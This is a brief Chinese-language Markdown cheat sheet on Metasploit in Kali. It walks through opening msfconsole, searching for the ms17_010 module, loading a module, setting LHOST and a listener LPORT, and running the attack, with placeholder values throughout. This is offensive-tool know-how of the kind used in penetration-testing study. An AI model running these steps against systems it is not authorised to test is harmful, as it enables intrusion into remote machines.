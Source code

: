 ## metasploit



shellcode

自动攻击脚本

kali自带



打开

```bash
msfconsole
```



查询漏洞

```
search ms17_010
```



使用模块，直接use查询的全称

```
use xxxxx/xxxxx/xxxxx/xxxx/xxxx
```



进入到模块，查看配置

```
show options
```



```
ping 目标ip
```



然后一个一个去set设置

```
set LHOST xxx.xx.xxx.x
```

设置listen攻击端口

```
set LPORT 12345
```





运行

```
run
```
